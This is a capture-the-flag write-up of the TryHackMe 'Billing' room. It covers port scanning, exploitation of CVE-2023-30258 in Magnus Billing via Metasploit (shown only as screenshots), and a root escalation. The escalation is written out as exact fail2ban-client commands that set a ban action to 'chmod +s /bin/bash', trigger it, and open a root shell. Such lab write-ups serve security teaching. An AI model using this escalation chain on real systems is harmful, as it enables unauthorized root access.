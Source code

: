 ```yaml
---
title: Write-up — Billing
date: 2025-07-16 10:00:00 AM
categories: [Write-up, Try Hack Me]
tags: [Try Hack Me, Write-up, ctf]
image: 'assets/img/articles/Billing.png'
description: "Explore my step-by-step guide to the TryHackMe Billing room. Learn how to perform reconnaissance with RustScan and Nmap, exploit web app vulnerabilities, and escalate privileges using Fail2Ban. Perfect for cybersecurity enthusiasts and professionals."
---
```


> Walkthrough of room Billing from TryHackMe :
> https://tryhackme.com/room/billing

This room is designed to teach you about billing systems and how to exploit them. It covers various aspects of billing, including vulnerabilities, exploitation techniques, and privilege exploitation.

---

## Recon

We will start by some recon...

![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExaG14ejdmY3dhd283Nm1obGswNGFuZDZvYmxndno5NXE5NXkzaWFmNiZlcD12MV9naWZzX3NlYXJjaCZjdD1n/i9cngh3Kw09GxlsrFP/giphy.gif)

```bash
$ rustscan -a $TARGET        
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
To scan or not to scan? That is the question.

[~] The config file is expected to be at "/home/hisoka/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.127.112:22
Open 10.10.127.112:80
Open 10.10.127.112:3306
Open 10.10.127.112:5038

...

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3306/tcp open  mysql   syn-ack ttl 63
5038/tcp open  unknown syn-ack ttl 63
```

We need to uncover the unknown service.

```bash
$ nmap -sC -sV $TARGET -p5038
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-15 17:15 CEST
Nmap scan report for billing.thm (10.10.127.112)
Host is up (0.14s latency).

PORT     STATE SERVICE  VERSION
5038/tcp open  asterisk Asterisk Call Manager 2.10.6

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.96 seconds
```

![You said asterix](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExeXU1eTFkMHB4bDRtbHc4OXlueXhhYnFodTRyNGN4OXozczE0MDhubSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/1Md9azxcgIyQ/giphy.gif)
_You said Asterix!!!_

So we have 4 services running:

| Port | Service  | Purpose  |
| ---- | -------- | -------- |
| 22   | ssh      |          |
| 80   | http     | Web      |
| 3306 | mysql    | Database |
| 5038 | asterisk | VoIP     |

Let's check the web page. It seems, we have a web application running on the server.

![Login page](assets/img/2025-07-16-THM-Billing/magnus-login-page.png){: w="600"}

The web page url contains the term *mbilling* (`/mbilling`). Probably link to a payment feature or something like that.
A quick search on Google help me to discover the name of the web app called **Magnus Billing** (same logo, use Asterisk can't be wrong).

![](assets/img/2025-07-16-THM-Billing/mbilling-google.png){: w="600"}

A great new is we have a cve (**CVE-2023-30258**) for our web app.

![](assets/img/2025-07-16-THM-Billing/exploit-db.png){: w="600"}

![](assets/img/2025-07-16-THM-Billing/metasploit-magnus-search.png){: w="600"}

And it's also available on metasploit!!!

![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExa2Q0ZTZkZmlwMDZiZXZlNXU1Y2M3dW8wYWcwZDZuZzk1b2pqem95eCZlcD12MV9naWZzX3NlYXJjaCZjdD1n/BYul6RujgoRCryuCdL/giphy.gif)

A little config on the exploit to make it work.
![](assets/img/2025-07-16-THM-Billing/meterpreter-session.png){: w="600"}

## Initial access

```bash
$ whoami
whoami
asterisk

$ ls /home
ls /home
debian	magnus	ssm-user

$ ls /home/magnus
ls /home/magnus
Desktop    Downloads  Pictures	Templates  user.txt
Documents  Music      Public	Videos

$ cat /home/magnus/user.txt
cat /home/magnus/user.txt
THM{********************************}
```

And voila!

![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExeXA2Z210MXB4bzBsODVwNmxreXYzNWQzaW10MXR1ODA5eWpuZDZhYSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/kxUhZ0TY46X1Dk48ru/giphy.gif)

## Privilege escalation

```bash
$ sudo -l
sudo -l
Matching Defaults entries for asterisk on ip-10-10-127-112:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-10-127-112:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

That means we can execute **`fail2ban-client`** with **sudo** rights.

Let's explain few things about **`fail2ban`**. Fail2Ban is an open-source intrusion prevention software framework designed to protect computer servers from brute-force attacks and other automated threats. Its primary purpose is to enhance the security of a system by monitoring log files for suspicious activity and **taking automated actions** to mitigate potential threats. For example, if a suspicious IP tries to connect to ssh server by brute-forcing the password, fail2ban can block the IP based on a criteria (like 10 connexion attempts).
So we can abuse `fail2ban-client` by setting an evil automated actions.

```bash
$ sudo /usr/bin/fail2ban-client status
sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:	8
`- Jail list:	ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd

$ sudo /usr/bin/fail2ban-client set sshd addaction evil
sudo /usr/bin/fail2ban-client set sshd addaction evil
evil

$ sudo /usr/bin/fail2ban-client set sshd action evil actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set sshd action evil actionban "chmod +s /bin/bash"
chmod +s /bin/bash

$ sudo /usr/bin/fail2ban-client set sshd banip 1.2.3.4
sudo /usr/bin/fail2ban-client set sshd banip 1.2.3.4

$ /bin/bash -p
/bin/bash -p

bash-5.2# whoami
whoami
root
```

**Explanation**

- *Listing Jails*: The `status` command lists all active jails managed by Fail2Ban.
- *Adding an Action*: The `addaction` command adds a new action to the specified jail.
- *Setting the Payload*: The `actionban` command sets the script or command to be executed when an IP is banned.
- *Triggering the Payload*: The `banip` command triggers the `actionban` script, executing your payload with elevated privileges.
- `chmod +s /bin/bash`: sets the setuid bit on the Bash executable, allowing users to run it with the permissions of its owner, typically root.
- `/bin/bash -p`: to start a Bash shell with root privileges. The `-p` option ensures that the shell retains the elevated privileges.

```bash
bash-5.2$ whoami
whoami
root

bash-5.2$ ls /root
ls /root
filename  passwordMysql.log  root.txt

bash-5.2$ cat /root/root.txt
cat /root/root.txt
THM{********************************}
```

![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExazBncDNpcTIxaTQ0N3E4Njhjb2NhZWQwdXhxOGxqamdhbmdocTJyeSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/STrEzUEFPWLsY/giphy.gif)

All flags down, mission passed.

Be proud of what you’ve accomplished.

![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExejBueW15czhhbm82bGZydWlmbjc2ZHJxdHZ0eHE3MjAwNDhjZWh5OSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/Ju7l5y9osyymQ/giphy.gif)

See you soon!

> “Cybersecurity is a continuous cycle of protection, detection, response, and recovery.” — Chris Painter

## Comments
<script src="https://giscus.app/client.js"
        data-repo="Deomorphisme/Deomorphisme.github.io"
        data-repo-id="R_kgDONEIr-Q"
        data-category="General"
        data-category-id="DIC_kwDONEIr-c4CjomU"
        data-mapping="pathname"
        data-strict="0"
        data-reactions-enabled="1"
        data-emit-metadata="0"
        data-input-position="top"
        data-theme="preferred_color_scheme"
        data-lang="en"
        data-loading="lazy"
        crossorigin="anonymous"
        async>
</script>
